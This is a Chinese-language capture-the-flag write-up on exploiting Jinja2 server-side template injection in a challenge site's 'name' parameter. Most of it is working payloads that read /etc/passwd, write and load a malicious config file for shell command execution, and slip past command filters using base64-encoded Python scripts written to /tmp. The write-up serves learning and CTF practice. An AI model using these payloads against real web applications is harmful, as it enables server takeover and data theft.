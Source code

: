> 先fuzz测试拿到可以get一个name参数（这也要考，真是服了）
# 开始测试输入
```
http://1ae78b0533574fb6b763eccb831e0b3175b19e935cd04dd7.changame.ichunqiu.com/?name={{1%2B1}}
```
> 这样输出的是hello 2，推测是jinja2命令执行，继续深度测试
掏出上次的payload，
```
aa{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['popen']('cat flag*').read()}}
```
en， 果然不能用,大概到func_globals['linecache']就会报错，好像是没有globals，刚刚学了这个就没有这个，换一个新的payload
```
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
```

看wp
```
name=%7B%7B ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') %7D%7D
name=%7B%7B config.from_pyfile('/tmp/owned.cfg') %7D%7D 
name=%7B%7B%20config[%27RUNCMD%27](%27/usr/bin/id%27,shell=True)%20%7D%7D
```
大概就是写了一个配置？然后导入，就能命令执行了，这是一个新的payload，以前没注意到的payload

然后就算有一个shell尝试反弹shell，en，也不行，会被检测到

然后发现ls dir等命令都被检测到了 于是通过base64解码写入sh 或 python脚本 来执行命令
找到flag文件在 `/var/www/html/fl4g`接着
```
print open('/var/www/html/fl4g','r').read()
```
编码成base64
然后写入
```
name=%7B%7B%20config[%27RUNCMD%27](%27echo cHJpbnQgb3BlbignL3Zhci93d3cvaHRtbC9mbDRnJywncicpLnJlYWQoKQ==|base64 -d>/tmp/get.py%27,shell=True)%20%7D%7D
```
执行py
```
name=%7B%7B%20config[%27RUNCMD%27](%27python /tmp/get.py%27,shell=True)%20%7D%7D
```